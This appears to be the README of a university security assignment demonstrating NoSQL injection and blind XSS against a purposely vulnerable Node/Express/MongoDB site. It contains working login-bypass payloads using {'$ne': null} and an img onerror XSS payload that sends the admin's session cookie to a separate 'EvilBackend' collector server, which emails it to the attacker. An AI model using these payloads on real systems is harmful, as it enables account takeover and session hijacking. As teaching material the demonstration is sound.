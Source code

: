 # ISEC3004-Assignment

## Introduction<br>

This is a repository for ISEC3004 Assignment. The assignment focuses on demostrating XSS and NoSQL Injection attacks.<br>
<br>
#### index.html - Main page for the website<br>
#### Backend - Backend Server
This backend acts as a server for the website. It is written in JavasScript using NodeJS runtime environment and ExpressJS framework. It uses MongoDB as the database.<br>
To run the backend server, navigate to the directory and run the following commands:<br>
  
```console
npm install
nodemon index.js
```
<b>Make sure to replace the mongoose.connect the URL with your mongoDB URL by specifying MONGO_URL value in .env file.</b>

#### EvilBackend - Backend Server for Blind XSS<br>
This backend acts as the server used by the bad actor to hunt for sesstion cookies. It is written in JavasScript using NodeJS runtime environment and ExpressJS framework.<br>
To run the backend server, navigate to the directory and run the following commands:<be>

```console 
npm install
nodemon index.js
```
<b>Make sure to specify EMAIL_TOKEN, EMAIL_FROM, EMAIL_TO, EMAIL_PASSWORD values in .env file.</b>

***

#### NoSql - NoSQL Injection Attack<br>
1. A bad actor can use the following payload to login as a different user if the email is known.<br>

```console
"password": {"$ne": null}
```
<br>
2. If the email is unknown the following payload will log you in as the first user in the database (In most cases the admin) <br>

```console
"email": {"$ne": null}, "password": {"$ne": null}
```
<br>

In the above scenarios, {"$ne": null} means <b>not equal to null</b>.

#### XSS - XSS Attack <br>
When a user account is created with a XSS payload as the user such as: <br>

```console 
<img src="invalid-url" onerror="this.src='http://localhost:5001/hack?cookie='+document.cookie; this.removeAttribute('onerror');"></img>
```
<br>
The payload will be executed when the Administrator of the system loads the admin page. The invalid source url will cause an error and execute the XSS payload in onerror attribute. The payload will send the session cookie to the bad actor's server. The EvilBackend server will then display the session cookie on the page and send a Email to the bad actor as a notification.<br>
